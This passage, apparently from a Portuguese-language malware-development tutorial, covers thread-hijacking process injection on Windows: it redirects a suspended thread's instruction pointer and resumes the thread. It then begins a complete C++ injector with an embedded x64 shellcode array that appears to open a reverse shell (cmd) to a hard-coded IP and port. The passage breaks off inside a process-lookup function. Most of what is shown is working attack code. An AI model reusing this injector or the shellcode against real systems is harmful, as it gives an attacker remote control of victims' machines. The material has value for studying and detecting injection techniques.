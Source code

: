```cpp
cont.Rip = (DWORD_PTR)remoteB;
```

Após a alteração do contexto, usamos a função [SetThreadContext](https://learn.microsoft.com/en-us/windows/win32/api/processthreadsapi/nf-processthreadsapi-setthreadcontext) para gravar o contexto adulterado. E, em seguida, resumimos a *thread* com a função [ResumeThread](https://learn.microsoft.com/en-us/windows/win32/api/processthreadsapi/nf-processthreadsapi-resumethread).

```cpp
SetThreadContext(ht, &cont);
ResumeThread(ht);
```

Juntando tudo no código, temos:

```cpp
#include <windows.h>
#include <stdio.h>
#include <stdlib.h>
#include <string.h>
#include <tlhelp32.h>

unsigned char payload[] = "\xfc\x48\x83\xe4\xf0\xe8\xc0\x00\x00\x00\x41\x51\x41\x50"
"\x52\x51\x56\x48\x31\xd2\x65\x48\x8b\x52\x60\x48\x8b\x52"
"\x18\x48\x8b\x52\x20\x48\x8b\x72\x50\x48\x0f\xb7\x4a\x4a"
"\x4d\x31\xc9\x48\x31\xc0\xac\x3c\x61\x7c\x02\x2c\x20\x41"
"\xc1\xc9\x0d\x41\x01\xc1\xe2\xed\x52\x41\x51\x48\x8b\x52"
"\x20\x8b\x42\x3c\x48\x01\xd0\x8b\x80\x88\x00\x00\x00\x48"
"\x85\xc0\x74\x67\x48\x01\xd0\x50\x8b\x48\x18\x44\x8b\x40"
"\x20\x49\x01\xd0\xe3\x56\x48\xff\xc9\x41\x8b\x34\x88\x48"
"\x01\xd6\x4d\x31\xc9\x48\x31\xc0\xac\x41\xc1\xc9\x0d\x41"
"\x01\xc1\x38\xe0\x75\xf1\x4c\x03\x4c\x24\x08\x45\x39\xd1"
"\x75\xd8\x58\x44\x8b\x40\x24\x49\x01\xd0\x66\x41\x8b\x0c"
"\x48\x44\x8b\x40\x1c\x49\x01\xd0\x41\x8b\x04\x88\x48\x01"
"\xd0\x41\x58\x41\x58\x5e\x59\x5a\x41\x58\x41\x59\x41\x5a"
"\x48\x83\xec\x20\x41\x52\xff\xe0\x58\x41\x59\x5a\x48\x8b"
"\x12\xe9\x57\xff\xff\xff\x5d\x49\xbe\x77\x73\x32\x5f\x33"
"\x32\x00\x00\x41\x56\x49\x89\xe6\x48\x81\xec\xa0\x01\x00"
"\x00\x49\x89\xe5\x49\xbc\x02\x00\x20\xfb\xc0\xa8\x47\x80"
"\x41\x54\x49\x89\xe4\x4c\x89\xf1\x41\xba\x4c\x77\x26\x07"
"\xff\xd5\x4c\x89\xea\x68\x01\x01\x00\x00\x59\x41\xba\x29"
"\x80\x6b\x00\xff\xd5\x50\x50\x4d\x31\xc9\x4d\x31\xc0\x48"
"\xff\xc0\x48\x89\xc2\x48\xff\xc0\x48\x89\xc1\x41\xba\xea"
"\x0f\xdf\xe0\xff\xd5\x48\x89\xc7\x6a\x10\x41\x58\x4c\x89"
"\xe2\x48\x89\xf9\x41\xba\x99\xa5\x74\x61\xff\xd5\x48\x81"
"\xc4\x40\x02\x00\x00\x49\xb8\x63\x6d\x64\x00\x00\x00\x00"
"\x00\x41\x50\x41\x50\x48\x89\xe2\x57\x57\x57\x4d\x31\xc0"
"\x6a\x0d\x59\x41\x50\xe2\xfc\x66\xc7\x44\x24\x54\x01\x01"
"\x48\x8d\x44\x24\x18\xc6\x00\x68\x48\x89\xe6\x56\x50\x41"
"\x50\x41\x50\x41\x50\x49\xff\xc0\x41\x50\x49\xff\xc8\x4d"
"\x89\xc1\x4c\x89\xc1\x41\xba\x79\xcc\x3f\x86\xff\xd5\x48"
"\x31\xd2\x48\xff\xca\x8b\x0e\x41\xba\x08\x87\x1d\x60\xff"
"\xd5\xbb\xf0\xb5\xa2\x56\x41\xba\xa6\x95\xbd\x9d\xff\xd5"
"\x48\x83\xc4\x28\x3c\x06\x7c\x0a\x80\xfb\xe0\x75\x05\xbb"
"\x47\x13\x72\x6f\x6a\x00\x59\x41\x89\xda\xff\xd5";

unsigned int payload_len = sizeof(payload);

int findPID(const char *procName) {

    HANDLE hSnapshot;
    PROCESSENTRY32 pe32;
    int pid = 0;
    BOOL proc;

```